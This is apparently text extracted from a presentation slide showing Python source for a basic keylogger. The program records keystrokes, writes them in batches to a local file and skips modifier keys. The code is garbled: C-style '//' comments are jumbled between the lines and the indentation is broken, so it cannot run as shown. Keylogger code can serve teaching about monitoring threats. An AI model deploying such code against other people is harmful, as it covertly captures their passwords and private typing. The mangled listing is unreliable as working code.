

def on_press(key):
    global count, keys
    keys.append(key)
    count += 1
    if count >= 5:
        count = 0
        write_file(keys)
        keys = []
def on_release(key):
    if key == Key.esc:

	return False
def write_file(keys):
    with open("keylogger.txt", "a") as f:
        for idx, key in enumerate(keys):
            k = str(key).replace("'", "")

	if k.find("space") > 0 and k.find("backspace") == -1:

//here declaring global for initiating data type that work all together
//appending the key strokes in the list
//here for relevance of the program we saving 5 key strokes in array at a time
// counting zero for next array
//by default key= pass
// here if esc Butten pressed then it returns false means it exits the program
// if we don’t to stop with esc button then we will write pass
//again opening txt file as f
//here we replacing the single cote with blank space
//here if there is space then follow next row
	f.write("\n")
     elif k.find("Key") == -1:
       f.write(k)
//here we don’t recording the other keys like shift key, tab key etc.